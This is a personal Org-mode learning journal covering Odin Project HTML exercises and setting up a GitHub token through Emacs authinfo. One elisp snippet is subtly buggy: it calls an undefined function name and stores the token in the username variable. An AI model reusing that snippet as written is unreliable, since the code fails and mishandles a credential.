   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
2. Within that directory, create a new file named index.html.
3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
